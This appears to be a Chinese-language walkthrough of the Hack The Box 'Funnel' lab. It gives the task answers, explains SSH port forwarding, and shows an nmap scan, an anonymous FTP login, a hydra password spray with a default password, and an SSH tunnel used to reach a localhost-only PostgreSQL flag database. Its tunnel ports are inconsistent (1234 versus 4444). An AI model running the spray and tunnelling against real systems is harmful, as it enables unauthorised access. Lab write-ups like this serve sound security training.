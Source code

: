 <center>Funnel</center>



[toc]







## Funnel

> Funnel







### 1. task

1. How many TCP ports are open?

```shell
2
```

2. What is the name of the directory that is available on the FTP server?

```shell
mail_backup
```

3. What is the default account password that every new member on the "Funnel" team should change as soon as possible?

```shell
funnel123#!#
```

4. Which user has not changed their default password yet?

```shell
christine
```

5. Which service is running on TCP port 5432 and listens only on localhost?

```shell
postgresql
```

6. Since you can't access the previously mentioned service from the local machine, you will have to create a tunnel and connect to it from your machine. What is the correct type of tunneling to use? remote port forwarding or local port forwarding?

```shell
local port forwarding
```

7. What is the name of the database that holds the flag?

```shell
secrets
```

8. Could you use a dynamic tunnel instead of local port forwarding? Yes or No.

```shell
yes
```



### 2. SSH隧道

> SSH 隧道是一种通过 SSH 协议建立的加密通道。
>
> 概念： [blog](https://blog.csdn.net/sycamorelg/article/details/134166718)

```shell
数据加密传输
绕过防火墙
端口转发
代理访问
```

````shell

#### 本地端口转发（Local Port Forwarding）
```bash
# 语法
ssh -L [本地IP:]本地端口:目标IP:目标端口 用户名@SSH服务器

# 示例：将本地3306端口转发到远程MySQL
ssh -L 3306:localhost:3306 user@remote_server

# 示例：访问内网服务
ssh -L 8080:internal_server:80 user@gateway_server
```


#### 远程端口转发（Remote Port Forwarding）
```bash
# 语法
ssh -R [远程IP:]远程端口:目标IP:目标端口 用户名@SSH服务器

# 示例：将远程8080端口转发到本地80
ssh -R 8080:localhost:80 user@remote_server

# 示例：内网穿透
ssh -R 80:localhost:3000 user@public_server
```


#### 动态端口转发（Dynamic Port Forwarding）
```bash
# 语法
ssh -D [本地IP:]本地端口 用户名@SSH服务器

# 示例：创建SOCKS代理
ssh -D 1080 user@remote_server

# 配置浏览器使用SOCKS代理
# 代理地址：127.0.0.1
# 端口：1080
```


### 3. 持久化配置

```config:~/.ssh/config
# 本地端口转发
Host mysql-tunnel
    HostName remote_server
    User username
    LocalForward 3306 localhost:3306

# 远程端口转发
Host web-tunnel
    HostName public_server
    User username
    RemoteForward 8080 localhost:80

# 动态端口转发
Host proxy-tunnel
    HostName remote_server
    User username
    DynamicForward 1080
```


### 5. 常见应用场景

#### 数据库访问
```bash
# MySQL远程访问
ssh -L 3306:database_server:3306 user@jump_server

# Redis访问
ssh -L 6379:redis_server:6379 user@jump_server
```

#### Web服务访问
```bash
# 访问内网Web服务
ssh -L 8080:internal_web:80 user@gateway

# 反向代理
ssh -R 80:localhost:3000 user@public_server
```


````









### 3. flag

>  获取flag

```shell
nmap -sC -sV IP
```

![image-20241202112103426](./assets/image-20241202112103426.png)

> ftp 匿名登陆

```shell
ftp IP
用户名： anonymous/空密码
```

> 下载ftp文件

![image-20241202112544598](./assets/image-20241202112544598.png)

```shell
cat welcome_28112022

optimus@funnel.htb albert@funnel.htb andreas@funnel.htb christine@funnel.htb maria@funnel.htb

cat password_policy.pdf

发现一个默认密码：funnel123#!#
```

> 对ssh和密码爆破

```shell
hydra -L user.txt -p "funnel123#!#" ssh://IP
```

> 登陆ssh

```shell
# 检查哪些端口在给定的机器上执行本地监听
ss -tln

# 检查在端口上运行的默认服务 为postgresql
ss -tl
```

> 确认有 postgresql 服务

```shell
# 检查并没有安装了postgresql客户端工具
psql

# 并且不能进行下载，需要root权限
apt install postgresql-client-common
```

> 本地端口转发

```shell
ssh -L 1234:localhost:5432 christine@10.129.252.232
```

**使用SSH在我们本地机器上的4444端口上打开了一个套接字 ，我们可以访问4444端口，将我们想要转发的流量直接转发到目标机器上的5432端口。**

1. **`在本地系统安装psql，在本地远程访问5432端口的postgresql服务`**

```shell
psql -U christine -h localhost -p 4444
```

2. **`现在已经成功使用ssh隧道连接到了postgresql服务，可以执行命令查看数据库信息`**

```shell
# \list 列出数据库
\l

# 连接数据库 
\c secrets

# 查看数据库中的表
\dt

# 查看flag
select * from flag;
```



